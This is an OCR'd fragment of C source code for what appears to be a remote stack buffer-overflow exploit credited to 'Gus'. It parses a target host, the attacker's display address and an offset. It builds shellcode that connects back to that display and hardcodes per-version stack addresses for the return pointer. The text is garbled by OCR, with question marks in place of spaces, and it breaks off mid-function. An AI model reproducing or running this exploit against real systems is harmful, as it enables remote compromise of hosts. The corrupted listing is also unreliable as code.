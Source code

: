 "\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff";?
int? main? (int? argc,? char? *argv[]){
char? *shellcode? =? NULL;
int? cnt,ver,retcount,? dispnum,dotquads[4],offset;
unsigned? long? sp;
char? dispname[255];
char? *host;?
offset? =? sp? =? cnt? =? ver? =? 0;
fprintf(stderr,"\t%s? -? Gus\n",argv[0]);
if? (argc&lt;3)? usage(argv[0]);?
while? ((cnt? =? getopt(argc,argv,"h:d:v:o:"))? !=? EOF)? {
switch(cnt){
case? 'h':
host? =? optarg;
break;
case? 'd':
{
retcount? =? sscanf(optarg,? "%d.%d.%d.%d:%d",?
&amp;dotquads[0],
&amp;dotquads[1],
&amp;dotquads[2],
&amp;dotquads[3],? &amp;dispnum);
if? (retcount? !=? 5)? usage(argv[0]);
sprintf(dispname,? "%03d.%03d.%03d.%03d:%01d",?
dotquads[0],? dotquads[1],? dotquads[2],dotquads[3],? dispnum);
shellcode=malloc(strlen((char? *)optarg)+strlen(shell)+strlen(endpad));
sprintf(shellcode,"%s%s%s",shell,dispname,endpad);
}
break;
case? 'v':
ver? =? atoi(optarg);
break;
case? 'o':
offset? =? atoi(optarg);
break;
default:
usage(argv[0]);
break;
}
}?
sp? =? offset? +? getsp(ver);?
(void)doit(host,sp,shellcode);?
exit(0);
}?
unsigned? long? getsp(int? ver)? {?
/*? Get? the? stack? pointer? we? should? be? using.? YMMV.? If? it? does? not? work,
try? using? -o? X,? where? x? is? between? -1500? and? 1500? */
unsigned? long? sp=0;?
if? (ver? ==? 15)? sp? =? 0xbfffea50;
if? (ver? ==? 20)? sp? =? 0xbfffea50;
if? (ver? ==? 22)? sp? =? 0xbfffeab4;
if? (ver? ==? 23)? sp? =? 0xbfffee38;? /*? Dunno? about? this? one? */
if? (sp? ==? 0)? {
fprintf(stderr,"I? don't? have? an? sp? for? that? version? try? using? the? -o?
